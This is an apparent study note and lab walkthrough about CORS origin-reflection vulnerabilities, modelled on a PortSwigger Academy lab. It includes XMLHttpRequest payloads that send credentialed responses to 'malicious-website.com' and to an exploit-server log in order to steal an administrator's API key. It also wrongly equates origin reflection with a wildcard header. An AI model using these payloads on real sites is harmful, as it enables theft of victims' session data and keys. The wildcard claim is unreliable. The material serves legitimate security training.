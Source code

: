 Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.

## Server-generated [ACAO](https://portswigger.net/web-security/cors/access-control-allow-origin) header from client-specified Origin header

   - Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.
   - One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed.

**For example, consider an application that receives the following request:**
```js
GET /sensitive-victim-data HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://malicious-website.com 
Cookie: sessionid=...
```

**It then responds with:**
```js
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://malicious-website.com 
Access-Control-Allow-Credentials: true 
...
```
   - These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.
   - Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain.
	   - In the context of Cross-Origin Resource Sharing (CORS), "arbitrary origins" refer to any domains or origins that are not explicitly listed as allowed origins by a server's CORS policy.
	   - When a server allows access from "arbitrary origins," it typically means that it's configured to accept requests from any domain, regardless of whether the domain is listed in the CORS policy or not.
	 This is achieved by using a wildcard `*` in the "Access-Control-Allow-Origin" response header. For example:
```js
Access-Control-Allow-Origin: *
```

**If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:**
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
	};
```

## Steps to solve lab
### Title - CORS vulnerability with basic origin reflection

**Desc** - This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

**Creds** - You can log in to your own account using the following credentials: `wiener:peter`


1. Try to find any CORS related headers in the application.
![[cors11.png]]
We got a end-point("/accountDetails"), which is most likely vulnerable. Let's test for it.

2. To test for CORS misconfiguration:
	1. We try to change the value of origin header to an arbitrary value.
	   **Before adding the Origin header** - 
	   ![[cors12.png]]
	   
	   **After adding the Origin header** - 
	   ![[cors13.png]]
The web application just reflects our origin value in the "Access-Control-Allow-Origin: " header.

3. Copy the below payload and paste it into the exploit server.
**Payload** - 
```js
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a0200a50335a10b81bf1cbc005f000e.web-security-academy.net/accountDetails',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
	location='/log?key='+this.responseText; 
	};
</script>
```

![[cors14.png]]

4. Now, view the "Access log" for any get request sent by "administrator" browser.
![[cors15.png]]
As you can see above, we got a get request in the Access log of exploit-server.

5. After successfully decoding it, we got "api" key.
![[cors16.png]]

submit the api key and lab will be solved.


For better understanding watch --> [[CORS_Lab_1_CORS vulnerability with basic origin reflection _ Long Video.mp4]]

#### Payload code explaination
1. `var req = new XMLHttpRequest();`: This line creates a new XMLHttpRequest object. An XMLHttpRequest object is used to make HTTP requests from the browser to a server and retrieve data without having to refresh the entire webpage.
    
2. `req.onload = reqListener;`: It sets the `onload` event handler for the XMLHttpRequest object. This means that when the request is completed successfully (i.e., when the response is received), the `reqListener` function will be called to handle the response.
    
3. `req.open('get', 'https://0a7200e204111410805fc68500a500ed.web-security-academy.net/accountDetails', true);`: This line configures the XMLHttpRequest to make a GET request to the specified URL, which is `'https://0a7200e204111410805fc68500a500ed.web-security-academy.net/accountDetails'`. The `true` argument in the `open` method indicates that the request should be asynchronous.
    
4. `req.withCredentials = true;`: This line sets the `withCredentials` property to `true`, which means that any credentials associated with the current webpage (such as cookies) will be included with the request.
    
5. `req.send();`: This line sends the HTTP GET request to the specified URL.
    
6. The `reqListener` function is defined to handle the response. When the request is complete, this function is executed. It changes the location (URL) of the current webpage to `'/log?key=' + this.responseText`. This effectively redirects the user to a new URL, passing the response text as a query parameter.

In summary, this code makes an HTTP request to the specified URL, and upon receiving a response, it redirects the user to a new location.